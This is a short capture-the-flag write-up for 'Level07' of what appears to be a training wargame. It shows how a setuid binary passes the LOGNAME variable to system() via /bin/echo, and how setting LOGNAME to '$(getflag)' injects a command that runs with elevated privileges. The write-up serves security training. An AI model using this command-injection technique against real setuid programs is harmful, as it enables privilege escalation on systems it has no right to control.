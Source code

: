 # Level07
## Step by step
- In the user `level07` home directory, there is a file
  ```bash
  > ls
  -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
  ```
- The executable `level07` print the following when execute
  ```
  > ./level
  level07
  ```
- With the command `strings` we can see that the program is using `/bin/echo` `getenv` and `LOGNAME`
  ```
  > strings level07
  /lib/ld-linux.so.2
  zE&9qU
  __gmon_start__
  libc.so.6
  _IO_stdin_used
  setresgid
  asprintf
  getenv
  setresuid
  system
  getegid
  geteuid
  __libc_start_main
  GLIBC_2.0
  PTRh 
  UWVS
  [^_]
  LOGNAME
  /bin/echo %s 
  ;*2$"
  ```
- The enviroment contains the variable `LOGNAME=level07`, so lets change it to get the flag
  ```bash
  > export LOGNAME='$(getflag)'
  > ./level07
  Check flag.Here is your token : XXX
  ```
  
